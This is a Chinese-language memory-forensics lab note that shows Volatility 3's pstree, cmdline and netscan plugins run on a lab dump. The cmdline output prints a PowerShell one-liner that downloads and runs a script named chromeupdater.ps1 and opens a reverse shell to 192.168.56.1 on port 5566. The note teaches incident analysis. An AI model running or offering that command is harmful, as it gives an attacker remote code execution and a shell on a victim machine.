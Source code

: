 ### 類似 disk forensic 時用到的部分功能
#### `Process Explorer`
- #### 可使用 `windows.pstree`
Vol 類似功能還有 pslist, psscan 可以自己試試
<br>範例 (只截取 powershell 相關內容)
```console
$ python3 ../vol.py -f wmilab.dmp windows.pstree
Volatility 3 Framework 2.0.2
Progress:  100.00               PDB scanning finished
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime

5620    8156    powershell.exe  0xd782c541c080  12      -       0       False   2022-03-19 08:33:08.000000      N/A
* 3268  5620    cmd.exe 0xd782c5f28080  2       -       0       False   2022-03-19 08:33:09.000000      N/A
** 4812 3268    curl.exe        0xd782c5e3d540  0       -       0       False   2022-03-19 08:53:59.000000      2022-03-19 08:53:59.000000
* 3348  5620    conhost.exe     0xd782c4a56080  4       -       0       False   2022-03-19 08:33:08.000000      N/A
4168    8156    powershell.exe  0xd782c5f4b500  12      -       0       False   2022-03-19 08:33:08.000000      N/A
* 7200  4168    cmd.exe 0xd782c5e404c0  1       -       0       False   2022-03-19 08:33:09.000000      N/A
* 2660  4168    conhost.exe     0xd782c480f0c0  4       -       0       False   2022-03-19 08:33:08.000000      N/A
```
- #### 可使用 `windows.cmdline` 確認 process 執行的 cmd
Vol 裡面不知道一個功能怎用的話，直接加 `-h` 看說明
<br>例如你不知道 `windows.cmdline` 怎用
```console
$ python3 ../vol.py -f wmilab.dmp windows.cmdline -h
Volatility 3 Framework 2.0.2
usage: volatility windows.cmdline.CmdLine [-h] [--pid [PID ...]]

options:
  -h, --help       show this help message and exit
  --pid [PID ...]  Process IDs to include (all other processes are excluded)
```
上述內容可以得知直接加 `--pid` 指定 process 即可
<br>範例
```console
$ python3 ../vol.py -f wmilab.dmp windows.cmdline --pid 5620
Volatility 3 Framework 2.0.2
Progress:  100.00               PDB scanning finished
PID     Process Args

5620    powershell.exe  "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater -c 192.168.56.1 -p 5566 -e cmd

```
就看到熟悉的 `IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater -c 192.168.56.1 -p 5566 -e cmd` 了
#### `TCPView`
- #### 可使用 `windows.netscan`
範例
```console
$ python3 ../vol.py -f wmilab.dmp windows.netscan |grep -iE 'offset|192.168.56.1.*5566'
Offset	Proto	LocalAddr	LocalPort	ForeignAddr	ForeignPort	State	PID	Owner	Created
0xda01f42669a0	TCPv4	192.168.56.117	49891	192.168.56.1	5566	ESTABLISHED	-	-	N/A
0xda01f6d9b010	TCPv4	192.168.56.117	49889	192.168.56.1	5566	ESTABLISHED	-	-	N/A
0xda01f6eedbb0	TCPv4	192.168.56.117	49893	192.168.56.1	5566	ESTABLISHED	-	-	N/A
```